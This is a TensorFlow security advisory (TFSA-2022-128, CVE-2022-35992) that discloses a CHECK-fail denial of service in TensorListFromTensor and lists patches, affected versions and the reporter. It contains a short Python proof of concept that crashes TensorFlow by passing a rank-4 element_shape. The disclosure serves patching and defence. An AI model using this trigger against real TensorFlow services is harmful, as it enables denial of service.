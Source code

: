 ## TFSA-2022-128: `CHECK` fail in `TensorListFromTensor`

### CVE Number
CVE-2022-35992

### Impact
When `TensorListFromTensor` receives an `element_shape` of a rank greater than one, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
arg_0=tf.random.uniform(shape=(6, 6, 2), dtype=tf.bfloat16, maxval=None)
arg_1=tf.random.uniform(shape=(6, 9, 1, 3), dtype=tf.int64, maxval=65536)
arg_2=''
tf.raw_ops.TensorListFromTensor(tensor=arg_0, element_shape=arg_1, name=arg_2)
```

### Patches
We have patched the issue in GitHub commit [3db59a042a38f4338aa207922fa2f476e000a6ee](https://github.com/tensorflow/tensorflow/commit/3db59a042a38f4338aa207922fa2f476e000a6ee).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology.
